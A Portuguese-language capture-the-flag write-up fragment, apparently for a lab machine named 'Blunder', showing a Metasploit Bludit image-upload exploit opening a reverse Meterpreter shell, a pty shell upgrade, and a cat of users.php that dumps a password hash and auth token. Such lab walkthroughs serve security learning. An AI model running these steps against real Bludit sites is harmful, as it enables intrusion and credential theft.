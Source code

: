 investigando o motivo deste erro.

Constatado erro na versão  do metasploit  metasploit `v5.0.94-dev`

a versão stable é a versão  metasploit `v5.0.87-dev`

Essa versão no exploit do meterpreter é setado o LHOSTS automaticamente na porta 4444

```bash
msf5 exploit(linux/http/bludit_upload_images_exec) > run

[*] Started reverse TCP handler on 10.10.14.251:4444 
[+] Logged in as: fergus
[*] Retrieving UUID...
[*] Uploading tmgeRqhFfL.png...
[*] Uploading .htaccess...
[*] Executing tmgeRqhFfL.png...
[*] Sending stage (38288 bytes) to 10.10.10.191
[*] Meterpreter session 1 opened (10.10.14.251:4444 -> 10.10.10.191:45134) at 2020-06-29 08:47:30 -0400
[+] Deleted .htaccess

meterpreter > sysinfo
Computer    : blunder
OS          : Linux blunder 5.3.0-53-generic #47-Ubuntu SMP Thu May 7 12:18:16 UTC 2020 x86_64
Meterpreter : php/linux
meterpreter > 

meterpreter > shell
Process 4207 created.
Channel 0 created.

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c "import pty;pty.spawn('/bin/bash')"
www-data@blunder:/var/www/bludit-3.9.2/bl-content/tmp$ 
```
Entrar no path abaixo e dar um cat no users.php

```bash
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ cat users.php
cat users.php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```
